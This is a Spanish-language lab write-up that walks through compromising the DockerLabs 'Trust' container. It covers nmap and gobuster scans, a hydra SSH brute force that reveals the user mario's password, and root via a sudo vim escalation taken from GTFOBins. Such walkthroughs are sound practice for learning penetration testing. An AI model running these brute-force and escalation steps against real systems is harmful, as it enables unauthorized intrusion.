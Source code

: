 [[Writeups]]
#Writeups #VeryEasy #DockerLabs

Vamos con la primera maquina de DockerLabs, una web reciente donde podemos ejecutar las maquinas en local con docker y que sea todo mucho mas rápido y optimizado.

![dockerLabs.png](assets/dockerLabs.png)

Para poder ejecutar las maquinas necesitaremos instalar docker:

```bash
sudo apt install docker.io
```

 y para ejecutar las maquinas primero extraeremos el archivo zip que nos descargaremos de la web, a continuación entraremos en el directorio extraído y desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

hacemos un scan general con nmap:

```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.46 seconds
```

vemos que solo hay dos servicios, hacemos un escaneo mas profundo en los puertos encontrados:

```bash
❯ nmap -p22,80 -Pn -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:11 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.17 seconds
```

obtenemos que es una web con Apache, vamos a echar un vistazo:

![apacheTrust.png](assets/apacheTrust.png)

hacemos una enumeración web con gobuster y obtenemos los siguientes resultados:

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,xml,json
```


![gobusterTrust.png](assets/gobusterTrust.png)

vamos a ver que hay en el directorio secret.php:

![webMarioTrust.png](assets/webMarioTrust.png)

la web solo muestra este mensaje que de primeras me da a pensar que hay un ussuario llamado mario, en el codigo fuente tampoco encontramos nada, asi que apuntaremos al servicio ssh con un atauqe de fuerza bruta probando el usuario mario con el rockyou.txt:

```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
```

y nos da un caso exitoso:

![hydraTrust.png](assets/hydraTrust.png)

el usuario **mario** si existe y la contraseña es **chocolate**

vamos a conectarnos al ssh:

```bash
❯ ssh mario@172.17.0.2
mario@172.17.0.2s password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@2a9f78d555d6:~$ 
```
En DockerLabs no hay flags por lo que para concluir la maquina tenemos que obtener root, asi que vamos a enumerar los privilegios que tenemos como mario:

```bash
mario@2a9f78d555d6:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 2a9f78d555d6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 2a9f78d555d6:
    (ALL) /usr/bin/vim
mario@2a9f78d555d6:~$ 
```

tenemos permisos sudo para vim, consultamos en la pagina [GTFOBins](https://gtfobins.github.io/) 

![vimTrust.png](assets/vimTrust.png)

usamos la opción (a) y nos da root

![rootTrust.png](assets/rootTrust.png)

Con esto ya hemos comprometido la maquina.

